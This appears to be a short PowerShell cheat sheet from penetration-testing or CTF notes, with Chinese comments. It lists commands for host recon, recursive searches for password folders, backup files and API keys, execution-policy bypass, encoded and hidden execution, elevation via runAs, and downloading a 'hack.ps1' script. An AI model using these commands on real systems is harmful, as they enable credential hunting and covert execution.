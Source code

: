 ```powershell
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

# get content 
Get-Content "C:\Program Files\interesting-file.txt.txt"

# other common command
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5

Get-Location -Path "C:\Users\Administrator\Documents\Passwords"
Get-ChildItem -Path C:/ -Include b64.txt -Recurse -File

Get-LocalUser
Get-LocalUser -SID "S-1-5-21-1394777289-3961777894-1791813945-501"

Get-LocalGroup

Get-NetIPAddress

## listen port, statics
GEt-NetTCPConnection | Where-Object -Property State -Match Listen | measure

Get-Hotfix -Id KB4023834

Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY

#-powershell常用参数
PowerShell[.exe] -help
-Command            #-需要执行的代码
-ExecutionPolicy    #-设置默认的执行策略，一般使用Bypass
-EncodedCommand     #-执行Base64代码
-File               #-这是需要执行的脚本名
-NoExit             #-执行完成命令之后不会立即退出，比如我们执行powerhsell whoami 执行完成之后会退出PS会话
-NoLogo             #-不输出PS的Banner信息
-Noninteractive     #-不开启交互式的会话
-NoProfile          #-不使用当前用户使用的配置文件
-Sta                #-以单线程模式启动ps
-Version            #-设置用什么版本去执行代码
-WindowStyle        #-设置Powershell的执行窗口，有下面的参数Normal, Minimized, Maximized, or Hidden
IEX                 #-Invoke-expression别名：接受一个字符串作为要运行的完整命令
get-executionpolicy
set-executionpolicy unrestricted

# 常用命令
## run as admin
## start-process：启动一个进程 
powershell.exe Start-Process cmd.exe -Verb runAs

## execute command
powershell (Invoke-WebRequest -Uri "http://127.0.0.1/hack.ps1" -OutFile "C:\1.ps1")
powershell -Command 

```
